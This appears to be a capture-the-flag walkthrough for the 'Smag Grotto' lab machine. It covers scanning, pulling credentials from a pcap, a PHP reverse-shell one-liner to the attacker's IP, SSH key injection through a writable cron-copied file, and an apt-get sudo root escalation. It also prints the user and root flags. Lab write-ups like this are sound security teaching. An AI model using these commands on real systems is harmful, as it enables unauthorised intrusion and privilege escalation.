


# Smag Grotto

## Description

Follow the yellow brick road.

Deploy the machine and get root privileges.

## Initial scan

Let's start with an Nmap scan. The scan reveals two open ports:
* 22 ssh
* 80 http

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Smag
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Web

Let's start with the web service running on port 80. The main page has nothing to offer, so I decided to run `dirsearch` on it:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Smag_Grotto]
└─$ dirsearch -u http://$IP/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 220520

Output File: /home/user/.dirsearch/reports/10.10.52.67/_21-11-24_03-20-21.txt

Error Log: /home/user/.dirsearch/logs/errors-21-11-24_03-20-21.log

Target: http://10.10.52.67/

[03:20:21] Starting: 
[03:20:25] 301 -  311B  - /mail  ->  http://10.10.52.67/mail/
[03:28:59] 403 -  277B  - /server-status

Task Completed
~~~

The result shows `/mail` directory which contains three emails and one of them has a pcap file attached to it:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Smag_Grotto/files]
└─$ curl -s "http://$IP/mail/" | grep -i "pcap"
					<a href="../aW1wb3J0YW50/dHJhY2Uy.pcap">dHJhY2Uy.pcap</a>
~~~

## PCAP file

I downloaded the pcap file using `wget`:

~~~
$ wget http://$IP/aW1wb3J0YW50/dHJhY2Uy.pcap
~~~

I opened the pcap file with `wireshark` and there is one tcp stream. Right click > Follow > TCP Stream.

Now you should see this:

We obtain a few things here. First one being a virtual host and a login page (`/login.php`) and we have creds to login:
* Virtual Host: `development.smag.thm`
* Username: `helpdesk`
* Password: `cH4nG3M3_n0w`

## Virtual Host

Add the host name with the IP (`<MACHINE IP>  development.smag.thm`) to your `/etc/hosts`. Now navigate to the "development.smag.thm" and login from `/login.php` with the creds we found: `helpdesk:cH4nG3M3_n0w`.

Then we are directed to `/admin.php` where we can execute commands:

## Reverse Shell

Now that we can execute commands, we can execute a reverse shell. Open a listener (`rlwrap nc -lvnp 4444`) and send the following command which is a php reverse shell:

~~~
php -r '$sock=fsockopen("<YOUR IP>",4444);exec("/bin/bash -i <&3 >&3 2>&3");'
~~~

Now we have a shell as `www-data` and the first thing I did was spawning a TTY shell using a python one-liner:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Smag_Grotto/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.**.**] from (UNKNOWN) [10.10.52.67] 40160
bash: cannot set terminal process group (721): Inappropriate ioctl for device
bash: no job control in this shell
www-data@smag:/var/www/development.smag.thm$ which python3
/usr/bin/python3
www-data@smag:/var/www/development.smag.thm$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@smag:/var/www/development.smag.thm$
~~~

## www-data -> jake (lateral move)

If you list `/home` directory, you can see one user on the machine: `jake`. It's obvious that we need to switch to this user first. I started looking around the machien and found a cronjob by checking `/etc/crontab`:

~~~
www-data@smag:/$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root	/bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
#
~~~

This cronjob copies the content of `/opt/.backups/jake_id_rsa.pub.backup` which is a SSH public key to `/home/jake/.ssh/authorized_keys` and we have write access to it:

~~~
www-data@smag:/$ ls -la /opt/.backups/jake_id_rsa.pub.backup
-rw-rw-rw- 1 root root 563 Jun  5  2020 /opt/.backups/jake_id_rsa.pub.backup
~~~

It means we can add our own public key to this file and it is going to be copied to `jake`'s `authorized_keys`. If you don't have a public key, you can create one using `ssh-keygen`. Copy the content of the file with `pub` extention to `/opt/.backups/jake_id_rsa.pub.backup`:

~~~
www-data@smag:/$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQ [REDACTED] 2NenKcRDWmETp4SKM= user@Y0B01" > /opt/.backups/jake_id_rsa.pub.backup
~~~

Wait one minute, and now you can connect to the target machine via ssh as user `jake`:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Smag_Grotto]
└─$ ssh -i ~/.ssh/id_rsa jake@$IP
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Wed Nov 24 04:27:08 2021 from 10.9.**.**
jake@smag:~$
~~~

## User flag

Now we can read the user flag located in `jake`'s home directory:

~~~
jake@smag:~$ ls
user.txt
jake@smag:~$ cat user.txt 
iusGorV7EbmxM5AuIe2w499msaSuqU3j
~~~

User flag: `iusGorV7EbmxM5AuIe2w499msaSuqU3j`

## Going root

Now we need to gain root access in order to read the root flag. I ran `sudo -l` to check my sudo permissions:

~~~
jake@smag:~$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
~~~

As you can see, we can run `apt-get` with sudo and no password. I checked [GTFOBins](https://gtfobins.github.io/) and found a command the can escalate our privilege:

~~~
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
~~~

We switche to `root` using this command:

~~~
jake@smag:~$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/bash
root@smag:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
~~~

## Root flag

Now we can head to `/root` and read the root flag:

~~~
root@smag:/tmp# cd /root
root@smag:/root# ls
root.txt
root@smag:/root# cat root.txt 
uJr6zRgetaniyHVRqqL58uRasybBKz2T
~~~

Root flag: `uJr6zRgetaniyHVRqqL58uRasybBKz2T`

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun and learned something.

Have a g00d one! : )